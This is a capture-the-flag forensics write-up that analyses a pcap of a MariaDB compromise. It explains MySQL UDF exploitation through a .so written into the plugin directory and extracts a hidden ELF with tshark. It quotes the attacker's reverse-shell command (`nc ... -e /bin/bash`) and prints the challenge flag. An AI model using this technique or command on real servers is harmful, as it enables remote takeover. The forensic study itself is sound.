




# WRITE_UP #

## ENDPOINT ##

### 1. Analysis ###
* **Given:** a pcap file named `capture.pcap`.
* **Description:** E Corp's sinister control over society through the chemical compound "EverLast" must be stopped. Analyze the provided network traffic capture file to uncover critical information hidden within the malicious payload. Your task is to extract the key details, including a callback endpoint used in various missions to disseminate EverLast, to help the resistance dismantle the corporation's grip on the world.
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### YOURRRR SQL ####

So we were given a pcap file, let's use `Wireshark` to investigate it.

This challenge is quite ez to analyze since it only has 1 `TCP stream` that looks like this:




First, the attacker hacked the `MariaDB` using `mysql_native_password`. After gaining access, attacker ran some `sql` commands:
1. Delete a table named `xQGgYA` if it existed before
2. Create a new table named `xQGgYA`, the table only has 1 column `qza` whose dataType is `varchar(255) NOT NULL`
3. Then the attacker started to insert values to the column
4. Use `FROM_BASE64` to decode the base64 string, then `CONCAT` them with `SEPARATOR ''` to concatenate all the values inserted in table `xQGgYA` 
5. Save the concatenated data to file `/usr/lib/mysql/plugin/lvg6H1g.so'`. Why `/usr/lib/mysql/plugin`? Because `plugin` is the only directory `MySQL` gives permission to load external libs (plugins).
6. Attacker use `CREATE FUNCTION do_system RETURNS INTEGER SONAME 'lvg6H1g.so'` to transform the `.so` file into the real function name `do_system`. This technique is called: **UDF Exploitation**: User Defined Function Exploitation. You can read more about it here: [MySQL UDF Exploitation](https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf?rss)
7. Run `do_sytem` using `nc 10.10.0.99 8080 -e /bin/bash` as argument, maybe this will establish reverse shell from ip `10.10.0.99`, port `8080`
    
We can clearly see the base64 strings `VALUES` inserted in `xQGgYA` looks very suspicious, here we can use a `tshark` command to extract the value then decode:

```bash
tshark -r capture.pcap -Y 'mysql.query contains "INSERT INTO
"' -T fields -e mysql.query | grep -ioP 'VALUES\s*\(\K.*?(?=\))' > output.txt
```
After getting the output.txt file, we use `CyberChef` to decode it:



It gave us an `ELF` file, let's save the file to our machine to analyze further. I named the file `malware` then use `strings` to investiagate it:



That looks like a Base64 string, decode it give us the flag. 

## 3. Solution ##
1. **Result:** The flag is `HTB{chunk5_4nd_udf_f0r_br34kf457}`


